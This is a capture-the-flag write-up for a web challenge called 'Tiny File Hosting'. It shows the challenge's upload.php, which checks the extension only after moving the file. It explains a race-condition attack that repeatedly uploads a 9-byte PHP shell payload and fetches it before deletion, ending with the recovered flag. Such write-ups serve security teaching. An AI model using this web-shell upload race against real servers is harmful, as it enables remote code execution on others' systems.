


# Tiny File Hosting [Web]

## Prompt
People like large file hosting service, but I created a tiny file hosting service, hope you also like it =)

`challs1.nusgreyhats.org:5207`


## Files
[setup.sh](./files/setup.sh)  
[setup-cron](./files/setup-cron)

## Description
Clicking on the link to the challenge site, we are greeted with an upload file page.


We then try to upload a file and monitor the requests it makes using our browser's inspect network tool.



The upload seems to fail due to its size.



But what's more noticable is that `/upload.php` being called, and we are able to obtain the source code by going to that address. You can see it [here](./files/upload.php) as well.

``` php
// upload.php
<?php
$uploaded = false;
define('UPLOAD_PATH', getcwd().'/upload');

if(isset($_POST['submit'])){
    $disallowed_exts = array('php','php2','php3','php4','php5','php6','php7','phps','pht','phtm','phtml','pgif','shtml','htaccess','phar');
    $file_name = $_FILES['upload_file']['name'];
    $file_size = $_FILES['upload_file']['size'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = strtolower(substr($file_name,strrpos($file_name,".")+1));

    $upload_file = UPLOAD_PATH . '/' . $file_name;
    if ($file_size > 9) {
        echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
        die('<script>alert("This is file is too big for me to host on my server =(");</script>');
    }

    if (move_uploaded_file($temp_file, $upload_file)) {
        if(!in_array($file_ext, $disallowed_exts)) {
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $uploaded = true;
        // hope you don't upload these files, I am going to delete them anyway =)
        } else {
            @unlink($upload_file);
            echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
            die("<script>alert('.{$file_ext} file is not allowed!')</script>");
        }
    } else {
        echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
        exit('<script>alert("upload error!")</script>');
    }
} else {
    highlight_file(__FILE__);
}

if ($uploaded) {
    echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
    echo '<script>alert("upload success")</script>';
}
?>
```

Notice a few things here:
1. There are some blacklisted extensions in `$disallowed_exts`, but `.php1` is not one of them.  
2. The file size must be `at most 9 bytes`.
3. The file is moved from a temporary location to its uploaded location, before going through the extension check.
4. The file, is allowed to be saved, will be renamed as seen by the `$img_path` variable.

Also, notice the comment:  
`// hope you don't upload these files, I am going to delete them anyway =)`

Checking the provided `setup-cron` and `setup.sh`, we can see that the files that managed to get uploaded to the specified directory will be wiped every 3 minutes. What's more interesting is that the `$flag` alias variable is echoed to a new randomly named `.txt` file in the same upload directory.

``` bash
# -- setup-cron --
*/3 * * * * root /bin/bash /root/setup.sh
```

``` bash
#--- setup.sh ---

#!/bin/bash
. /root/.bashrc
rm /var/www/html/upload/*
rand=`tr -dc A-Za-z0-9 </dev/urandom | head -c 17`
echo $flag > /var/www/html/upload/${rand}_flag.txt
```

Thus, working with these, our first vector is to see if we can save a `.php1` or other special `.php` variants into the server and brute force the file by searching through the relatve path. Also, our payload in the file must be 9 bytes long, and hence we went with this payload from examining the possible payloads at [TODO](). We intend to grab the flag name, and then perform the search to obtain it.

``` bash
$ cat fake.php1 # contents of payload
<?=`dir`;

$ ls 
fake.php1   dummy.txt

$ php fake.php1 # test if payload works
fake.php1   dummy.txt
```

We then run a [python script](./files/feed-fake-file-and-brute.py) to test it out. The script runs and successfully obtains the file name of our saved payload, but loading that page does not run the payload. We then tried with other extensions such as `.ph>` and `.ph<` but no success seen. We then try to proceed with another possibility.

``` bash
$ python feed-fake-file-and-brute.py

START @ 7:43:6
Feeding file 'fake.php1'
GET /upload/1020210816074302.php1
GET /upload/1020210816074303.php1
# other lines omitted
GET /upload/7320210816074307.php1
PAGE FOUND
<?=`dir`;
```

Upon further research, there seems to be other CTF write-up sites 
(see [here](https://medium.com/ctf-writeups/breaking-the-competition-bug-bounty-write-up-ca7cb7bc53f5)
or [here](https://www.fatalerrors.org/a/0N111zE.html)) that shows a very similar challenge with very similar server `php` script.
They call this challenge as a **Race Condition Challenge**. In summary, a `.php` with our payload is required to be fed and called upon before removal/unlinking. Seeing the `php` snipped below, you can see how there is a small window where the file is moved to the location with its original naming. The extension is then checked and will fail, jumping to the else block to unlink. 

``` php
// snippet from upload.php
if (move_uploaded_file($temp_file, $upload_file)) { // --- file with original name exists from here
    if(!in_array($file_ext, $disallowed_exts)) { 
        $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
        rename($upload_file, $img_path);
        $uploaded = true;
    } else {
        @unlink($upload_file);                      // --- to here (if-check fails and jumps to else block)
        echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
        die("<script>alert('.{$file_ext} file is not allowed!')</script>");
    }
}
```

That small window is where the file will exist for us to call upon. We shall use the same `php` [payload](./files/file.php), but rename it to `file.php`.

``` php
// file.php
<?=`dir`;
```

So our plan is to craft a way to feed the same payload repeatedly using `POST /upload.php`, and run a concurrent file retrieval using `GET /upload/file.php`

Hence, we crafted a new [python script](./files/not-so-tiny-file-thread.py) to run this race condition - while varying the number of threads and loops per thread. We managed to get the php file, load it to run the payload, obtain the flag's file name, and finally get the flag!

``` bash
$ python not-so-tiny-file-thread.py
PAGE FOUND
upload/gAjY7keWTDLeb4poP_flag.txt

greyhats{h0vv_d1d_y0u_byp455_17?!?!}
```

## Flag
`greyhats{h0vv_d1d_y0u_byp455_17?!?!}`